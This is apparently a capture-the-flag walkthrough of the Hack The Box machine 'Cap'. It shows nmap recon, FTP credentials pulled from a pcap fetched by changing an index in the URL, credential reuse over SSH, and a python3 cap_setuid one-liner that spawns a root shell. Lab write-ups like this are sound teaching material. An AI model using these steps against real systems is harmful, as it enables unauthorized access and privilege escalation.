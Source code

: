 ```yaml
---
description: Linux - Easy
---
```


# Cap

## Recon

We'll start with a `nmap` scan.

```bash
nmap -p- -T4 --min-rate=1000 -sV -sC 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 18:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 03 Oct 2021 16:19:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
......
```

## User

So, we get a web server, ftp and ssh.  
Lets check out the webpage. It's a network monitoring dashboard, the side panel has three additional pages:  
Security Snapshot \(5 Second PCAP + Analysis\) - http://10.10.10.245/data/5  
IP Config - http://10.10.10.245/ip  
Network Status - http://10.10.10.245/netstat

The Security Snapshot page allows to download a pcap file of the last 5 seconds of network activity.  
For example, if we `ping` the machine 8 times we and request the data page at the start of the ping command we get the following.

![](../../.gitbook/assets/screenshot-7-.png)

It looks like each time the _Security Snapshot_ is requested the results are stored with an numerical index, lets checkout the first snapshot.  
[http://10.10.10.245/data/0](http://10.10.10.245/data/0)  
We get a 72 packets pcap. The protocol hierarchy tells us that its a FTP connection.  
Applying the appropriate filter we'll get the FTP credentials.

![](../../.gitbook/assets/capture%20%282%29.png)

The ftp server will show us nathan user home folder. Here we can get the user flag.

```bash
$ ftp 10.10.10.245
.....
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Oct 04 07:18 user.txt
ftp> get user.txt
```

If we try reusing the FTP credentials in SSH we'll find that they are valid.

## Root

We have SSH access to the machine. Lets check out how the web app generates the pcap files, given that network capture usually requires elevated privileges.

```bash
$ cd /var/www/html
$ less app.py
......
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
......
```

Looks like Python3 has SUID flag, the `getcap` command will allow us to check this.  
We can modify the app.py command string to spawn a root shell.

```bash
$ which python3
/usr/bin/python3
$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
$ getcap /usr/bin/python3.8 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# whoami
root
```

